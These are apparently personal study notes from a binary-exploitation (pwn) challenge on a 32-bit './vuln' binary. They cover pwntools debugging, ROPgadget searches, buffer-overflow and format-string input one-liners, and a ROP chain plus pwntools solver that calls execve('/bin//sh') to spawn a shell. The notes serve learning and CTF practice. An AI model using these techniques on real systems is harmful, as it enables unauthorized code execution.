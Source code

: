 # Lesson
- how to debug your exploit code on an assemblry level with `pwntools`
  ```python
  exe = ELF("./vuln")
  r = gdb.debug(exe.path, '''
       break *0x08049db4
       break *0x08049dc0
       continue
       ''')
  ```
  - caution: "DEBUG" code provided by `pwninit` does not work well.  
- NX bit  
  whether shellcode is effective or not  
  https://d2v.hatenablog.com/entry/2021/06/24/003258  
  ```json
  {
    ...
    "nx": "no", -> cannot run shellcode just inserted on memory
    ...
  }
  ```
  - Sigreturn-oriented programming (SROP)  
    - Stack hopping exploits   
    If mechanisms such as data execution prevention are employed, it won't be possible for the attacker to just place a shellcode on the stack and cause the machine to execute it by overwriting the return address. With such protections in place, the machine won't execute any code present in memory areas marked as writable and non-executable. Therefore, the attacker will need to reuse code already present in memory.
- Sigreturn-oriented programming (SROP)  
  https://en.wikipedia.org/wiki/Sigreturn-oriented_programming  

- `ROPgadget`  
  `ROPgadget` is installed with pwntools.
  ```zsh
  # use python3 with pwntools
  $ ROPgadget --binary ./vuln --re "pop ebx"
  ```
  - in case that you want to put some data in an address  
    search "ptr" like this  
    ```
    $ ROPgadget --binary ./vuln --re "mov dword ptr" | grep ret
    ```

- how to input bytes value on stdin
  ```zsh
  (python -c "print 'a' * 76 + '\xe6\x85\x04\x08';") | ./vuln
  ```
  or
  ```zsh
  $ echo -e '\xdd\xcc\xbb\xaa%46c%6$n' | ./q4
  ```
  - how can I input bytes value during `pwndbg`  
    This does not work well.
    ```
    n << (python -c "print '\x90\x90'")
    n << (echo -e '\x90\x90')
    ```
- `execve`  
  https://en.wikipedia.org/wiki/Exec_(system_call)  
  https://wiki.mma.club.uec.ac.jp/ytoku/Slides/Pwn%E5%8B%89%E5%BC%B7%E4%BC%9A  
  https://manpages.ubuntu.com/manpages/focal/ja/man2/execve.2.html  
  - how to know the usage of `execve` on a machine code level
    1. qwrite simple c programe that use the system call - for instance `execve`  
        ```c
        #include <stdio.h>
        #include <unistd.h>

        int main() {
            // Specify the file name and arguments
            char *args[] = { "/bin/sh", "-l", NULL };

            // Specify environment variables
            char *envp[] = { NULL };

            // Call the execve system call and start a new process
            execve(args[0], args, envp);

            // This line will not be executed if the execve system call succeeds
            perror("execve failed");
            return 1;
        }
        ```
    2. compile it  
        When you exploit 32bit-OS, compile it on 32bit-OS.  
        When you exploit 64bit-OS, compile it on 64bit-OS. 
        ```zsh
        (32/64-OS)$ gcc test.c -o test.0
        ```
    3. debug it with `gdb` and check it  
        - just before calling system call for execve on 32bit.  
         ![execve_32bit.png](execve_32bit.png)
        - result
          ```
          x86  

          int 0x80  
          eax = 11  
          args: ebx, ecx, edx, esi, edi, ebp  

          ebx = (arbitrary address) -> /bin/sh  
          ecx = 0  
          edx = 0  
          ```

# Quetions
- how to choose an arbitrary access
- why "/bin//sh", not "/bin/sh"
- `sysenter` vs. `int 0x80`  
  Looking at the binary I created for 32bit, there are both `sysenter` and `int 0x80`.  
  Does a compiler insert both instructions for invoking system call so that cpu can handle it regardless of cpu version?  
  https://gist.github.com/kiris/3103290  

# Memo
1. check
    ```zsh
    $ file ./vuln
    ./vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, BuildID[sha1]=232215a502491a549a155b1a790de97f0c433482, for GNU/Linux 3.2.0, not stripped
    $ checksec --file=./vuln --output=json | jq .
    {
      "./vuln": {
        "relro": "partial",
        "canary": "no",
        "nx": "no",
        "pie": "no",
        "rpath": "n/a",
        "runpath": "n/a",
        "symbols": "yes",
        "fortify_source": "no",
        "fortified": "0",
        "fortify-able": "0"
      }
    }
    ```

2. `ghidra` and `gdb`  
get break point address  

3. write exploit  
- create ROP chain  
  - manual  
    - goal
      ```
      int 0x80
      eax = 11
      ebx = (address) -> /bin/sh
      ecx = 0
      edx = 0
      ```
    - overview of stack for rop chain  
      ```
      1. (set /bin/sh on an arbitrary address)  
      2. 0x080583b9 : pop edx ; pop ebx ; ret  
      3. 0  
      4. (arbitrary address)  
      5. 0x08049e29 : pop ecx ; ret  
      6. 0  
      7. 0x080b073a : pop eax ; ret  
      8. 11  
      9. 0x0804a3c2 : int 0x80  
      ```
  - rely on `pwntools`  
    - solver2.py  
      ```python
      exe = ELF("./vuln")
      ...
      rop = ROP(exe)
      rop.gets(0x080e5060)
      rop.execve(0x080e5060, 0, 0)
      print(rop.dump())

      payload += rop.chain()

      r.sendline(payload)
      r.sendline(b"/bin//sh") # /bin/sh does not work well.
      ```


# Ref  
- https://qiita.com/housu_jp/items/2be2b8147f35a4d6a6ce  